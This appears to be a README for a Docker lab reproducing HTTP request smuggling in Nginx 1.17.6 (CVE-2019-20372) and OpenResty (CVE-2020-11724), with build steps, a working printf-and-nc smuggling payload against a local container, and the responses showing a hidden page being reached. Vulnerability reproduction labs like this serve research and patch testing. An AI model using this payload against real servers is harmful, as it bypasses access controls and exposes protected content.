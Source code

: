 #	Nginx - Http Smuggling [CVE-2019-20372]

##	Composition

Nginx 1.17.6



##	Usage

Only for PoC.

###	build

```bash
docker-compose up -d
```

The nginx server will on the port 9015.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 302 Moved Temporarily
```

1 HTTP code 302 means all right! 

Enjoy!



###	reproduce

```bash
printf 'GET /a HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 56\r\n'\
'\r\n'\
'GET /_hidden/index.html HTTP/1.1\r\n'\
'Host: notlocalhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9015
```

Try the command above and you will get two responses as following.

```http
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Sat, 04 Jan 2020 04:23:26 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

This should be hidden!
```



#	Openresty[CVE-2020-11724]

[OpenResty](https://github.com/openresty/openresty) is a full-fledged web application server by bundling the standard nginx core, lots of 3rd-party nginx modules, as well as most of their external dependencies.

OpenResty includes Nginx as a component and does include its own nginx core patches. So it is affected by CVE-2019-20372. And its configuration is the same as the nginx. POC is also the same.



#	Reference

https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf